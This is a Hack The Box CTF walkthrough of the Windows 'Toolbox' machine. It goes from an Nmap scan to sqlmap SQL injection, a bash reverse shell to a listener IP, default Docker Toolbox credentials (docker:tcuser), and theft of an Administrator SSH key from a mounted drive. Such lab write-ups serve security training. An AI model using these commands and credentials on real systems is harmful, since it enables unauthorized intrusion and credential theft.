# Hack The Box Walkthrough - Toolbox



Toolbox is an easy CTF-style Windows box on Hack The Box. It covers SQL injection, interactive shell access, escaping a containerized boot2docker VM, and vertical privilege escalation using a private SSH key found on a mounted filesystem.

## Network Scanning

The target IP address was `10.129.224.18`. I started with a full Nmap scan to identify the exposed services.

```bash
nmap -A 10.129.224.18
```

The scan showed the following open ports:

- `21/tcp` — FTP with anonymous login enabled.
- `22/tcp` — SSH.
- `135/tcp` — RPC.
- `139/tcp` — NetBIOS.
- `443/tcp` — HTTPS.
- `445/tcp` — SMB.



Opening the IP in a browser revealed a logistics website.


## Enumeration

While inspecting the SSL certificate, I found that it was issued for the domain `admin.megalogistic.com`.



I added the hostname to `/etc/hosts` and revisited the site in the browser. That took me to a login page.

```text
admin.megalogistic.com
```



The next step was to test the login form for SQL injection.



## Exploitation

I entered random credentials into the login form and intercepted the request with Burp Suite. I saved the request as `req.txt` and used `sqlmap` to test the endpoint.

```bash
sqlmap -r req.txt --dbs --force-ssl --batch
```
`sqlmap` confirmed that the page was vulnerable to SQL injection and returned three databases.

The `public` database looked interesting, so I dumped its contents.



```bash
sqlmap -r req.txt --dbs --force-ssl -D public --dump-all --batch
```



That exposed a hashed credential for the `admin` user.

I tried logging in with the recovered hash, but that did not work. Instead, I used `sqlmap` to get an interactive OS shell.

```bash
sqlmap -r req.txt --force-ssl --batch --os-shell
```



If that failed, the following variant could be used:

```bash
sqlmap -r req.txt --force-ssl --batch --os-shell --flush-session --time-sec=20
```

Once I had command execution, I upgraded to a more usable shell with a bash one-liner.

```bash
bash -c 'bash -i &> /dev/tcp/10.10.14.100/4444 0>&1'
```



That gave me a reverse shell on my listener.

## Privilege Escalation

After running `ifconfig`, I noticed signs that the system was running inside a Docker environment. `uname -a` confirmed that it was a `boot2docker` virtual machine.

The container IP was `172.17.0.2`, so I targeted the gateway at `172.17.0.1`. Using the default Docker Toolbox credentials worked.

```bash
ifconfig
python3 -c 'import pty; pty.spawn("/bin/bash")'
ssh docker@172.17.0.1
```

The password was:

```text
tcuser
```

Once logged in, I checked the sudo configuration and found that `docker` could run commands as root.

```bash
sudo -i
```

That gave root access inside the boot2docker VM.

From there, I explored the mounted system directories and found a `c` folder, indicating that the Windows `C:` drive was mounted into the VM.





Inside that mount, I found a `.ssh` directory with permissive `777` permissions. I copied the private SSH key to my local machine.



I saved the key as `key`, fixed its permissions, and used it to connect as the Windows `Administrator` user.

```bash
nano key
chmod 600 key
ssh -i key administrator@10.129.224.18
```

That completed the vertical privilege escalation and gave access to the Windows system. From there, I navigated to the Desktop and retrieved the final flag.

## Attack Path

- Scan the target and identify FTP, SSH, RPC, NetBIOS, HTTPS, and SMB.
- Inspect the SSL certificate and discover `admin.megalogistic.com`.
- Add the hostname to `/etc/hosts` and access the login page.
- Test the login form and confirm SQL injection with `sqlmap`.
- Dump the `public` database and recover the admin credential hash.
- Use `sqlmap --os-shell` to get command execution.
- Upgrade to a reverse shell with a bash one-liner.
- Identify the boot2docker VM and connect as `docker:tcuser`.
- Use sudo to become root on the VM.
- Find the mounted Windows `C:` drive and copy the `.ssh` private key.
- SSH into Windows as `Administrator` and read the final flag.

